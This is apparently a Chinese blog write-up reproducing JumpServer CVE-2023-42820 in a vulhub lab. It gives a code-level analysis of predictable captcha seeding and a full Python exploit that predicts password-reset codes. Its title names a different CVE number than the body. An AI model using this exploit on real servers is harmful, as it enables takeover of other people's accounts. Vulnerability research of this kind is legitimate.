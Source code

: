+++
title = 'CVE 2023 2480'
date = 2024-05-21T14:41:04+08:00
draft = false
tags = ["漏洞复现"]
+++

## 介绍

JumpServer是使用 Python / Django 进行开发，遵循 Web 2.0 规范的全球首款完全开源的堡垒机软件。因其开源，无插件，Web界面美观，操作方便，分布式，符合4A规范等特点，被很多企业广泛用于内部资产（物理机，云主机等）的管理。
CVE-2023-42820通过可控的伪随机数播种，构造随机数调用过程，计算出重置密码后的验证码，从而实现任意账号密码重置。

## 环境搭建

下载https://github.com/vulhub/vulhub/blob/master/jumpserver/CVE-2023-42820/，修改config.env的DOMAINS=[你的ip:端口]

![1716274683038](index/1716274683038.png)

然后直接docker compose，注意这里要启动docker服务、要安装了docker-compose

```
docker compose up -d
```

这里我虽然写了8888还是在8080，感觉并不用写端口，因为我看docker也没做映射

![1716275391597](index/1716275391597.png)

好的，做了实验还是得填8080，大概是后端的端口，想改可能还要同时改env里的 `CORE_HOST=http://127.0.0.1:8080`

用admin：admin直接登陆http://your-ip:8080即可

## 漏洞利用

可以看到

Patched versions>= v2.28.19, >= v3.6.5

在3.6.5和2.28.19都有一个叫做fix: 修复 random error的commit

![1716277497141](index/1716277497141.png)

在jumpserver中，按照下图逻辑进行验证

![1716278166625](index/1716278166625.png)

这里使用了django-simple-captcha实现验证码部分，

可以看到用了一个key，而且还提示了其他用这个部分的同学不要用同一个key来生成图片。
![1716279091529](index/1716279091529.png)
在url.py里可以看到这个key就是跟在后面的字符串
![1716279175872](index/1716279175872.png)这个key在url里，是可控的，类似这样。

`http://10.207.139.20:8080/core/auth/captcha/image/4cbbebb2305a4ef0d0e1242c352e288073537a7d/`

在网络服务中，接收用户交互的线程并不唯一，而random.seed()的作用只在当前线程，因此需要将我们控制的key作用在所有线程，所以exp的第一步为重放爆破，将我们控制的key大量发送get请求，使得所有服务器接收的线程均设置random.seed()。然后通过api调用，定位到忘记密码流程。
![1716279507847](index/1716279507847.png)

使用form_invalid方法对用户名是否存在进行验证，并通过random_string方法生成一个长度为36的token，带着token跳转到forgot-password页面。

再通过api定位发送验证码的调用函数

![1716279819826](index/1716279819826.png)

使用该类下create函数，通过random_string方法生成一个长度为6的验证码并进行发送

看下来这个random.seed()是作用于全流程的，所以我们需要考虑的是

![1716279923737](index/1716279923737.png)

返回一开始分析的captcha_image函数，该函数控制图片验证码生成，渲染，在每次的忘记密码找回时，均先调用该函数生成图片验证码，用户输入正确的用户名和验证码，才能跳转下一步，我们需要明确在该函数部分调用了几次random类的函数。

从头梳理，在django-simple-captcha里直接搜索random,可以找到

![1716280301856](index/1716280301856.png)

是旋转字符的，因为生成的captcha都是4个字符（8、*、3、=）

![1716280428846](index/1716280428846.png)

所以调用4次random.randrange(),在settings.py里也可以找到对应的定义，range是（-35，35）

![1716280712311](index/1716280712311.png)

还有noisy_function中
![1716280971009](index/1716280971009.png)
![1716280949744](index/1716280949744.png)
![1716281019286](index/1716281019286.png)
noizy_dot也用到了random，用了 `range(int(size[0]*size[1]*0.1))`次，
![1716281197925](index/1716281197925.png)
在jumpserver中可以看到capcha的大小是180*38，采用noise_dot的噪声算法

![1716359299723](index/1716359299723.png)

所以大概用了这些random

```python
for i in range(4):
    random.randrange(-35,35)

for j in range(int(180*38*0.1)):
    random.randint(0, 180)
    random.randint(0, 38)
```


于是得到exp

```python
import requests
import logging
import sys
import random
import string
import argparse
from urllib.parse import urljoin

logging.basicConfig(stream=sys.stdout, level=logging.INFO, format='%(asctime)s - %(levelname)s - %(message)s')
string_punctuation = '!#$%&()*+,-.:;<=>?@[]^_~'


def random_string(length: int, lower=True, upper=True, digit=True, special_char=False):
    args_names = ['lower', 'upper', 'digit', 'special_char']
    args_values = [lower, upper, digit, special_char]
    args_string = [string.ascii_lowercase, string.ascii_uppercase, string.digits, string_punctuation]
    args_string_map = dict(zip(args_names, args_string))
    kwargs = dict(zip(args_names, args_values))
    kwargs_keys = list(kwargs.keys())
    kwargs_values = list(kwargs.values())
    args_true_count = len([i for i in kwargs_values if i])
    assert any(kwargs_values), f'Parameters {kwargs_keys} must have at least one `True`'
    assert length >= args_true_count, f'Expected length >= {args_true_count}, bug got {length}'

    can_startswith_special_char = args_true_count == 1 and special_char

    chars = ''.join([args_string_map[k] for k, v in kwargs.items() if v])

    while True:
        password = list(random.choice(chars) for i in range(length))
        for k, v in kwargs.items():
            if v and not (set(password) & set(args_string_map[k])):
                # 没有包含指定的字符, retry
                break
        else:
            if not can_startswith_special_char and password[0] in args_string_map['special_char']:
                # 首位不能为特殊字符, retry
                continue
            else:
                # 满足要求终止 while 循环
                break

    password = ''.join(password)
    return password


def nop_random(seed: str):
    random.seed(seed)
    for i in range(4):
        random.randrange(-35, 35)

    for p in range(int(180 * 38 * 0.1)):
        random.randint(0, 180)
        random.randint(0, 38)


def fix_seed(target: str, seed: str):
    def _request(i: int, u: str):
        logging.info('send %d request to %s', i, u)
        response = requests.get(u, timeout=5)
        assert response.status_code == 200
        assert response.headers['Content-Type'] == 'image/png'

    url = urljoin(target, '/core/auth/captcha/image/' + seed + '/')
    for idx in range(30):
        _request(idx, url)


def send_code(target: str, email: str, reset_token: str):
    url = urljoin(target, "/api/v1/authentication/password/reset-code/?token=" + reset_token)
    response = requests.post(url, json={
        'email': email,
        'sms': '',
        'form_type': 'email',
    }, allow_redirects=False)
    assert response.status_code == 200
    logging.info("send code headers: %r response: %r", response.headers, response.text)


def main(target: str, email: str, seed: str, token: str):
    fix_seed(target, seed)
    nop_random(seed)
    send_code(target, email, token)
    code = random_string(6, lower=False, upper=False)
    logging.info("your code is %s", code)


if __name__ == "__main__":
    parser = argparse.ArgumentParser(description='Process some integers.')
    parser.add_argument('-t', '--target', type=str, required=True, help='target url')
    parser.add_argument('--email', type=str, required=True, help='account email')
    parser.add_argument('--seed', type=str, required=True, help='seed from captcha url')
    parser.add_argument('--token', type=str, required=True, help='account reset token')

    args = parser.parse_args()
    main(args.target, args.email, args.seed, args.token)

```

具体来说，就是通过发送30个都发送带有对应seed的验证码生成请求来使每个线程的seed都为我们所设定的seed,此时服务端每个线程的random函数都是经过了一轮之前分析过得random操作后的状态，通过调用nop_random，我们本地的random状态和服务端的random状态是一致的，send_code方法和jumpserver的UserResetPasswordSendCodeApi中的code一致，由于我们本地和服务端状态一致，所以我们本地与运行send_code和服务端运行send_code也是一样的，生成的code也就是一样的了。

![1716361614012](index/1716361614012.png)

![1716361642462](index/1716361642462.png)


### 参考

https://mp.weixin.qq.com/s/VShjaDI1McerX843YyOENw
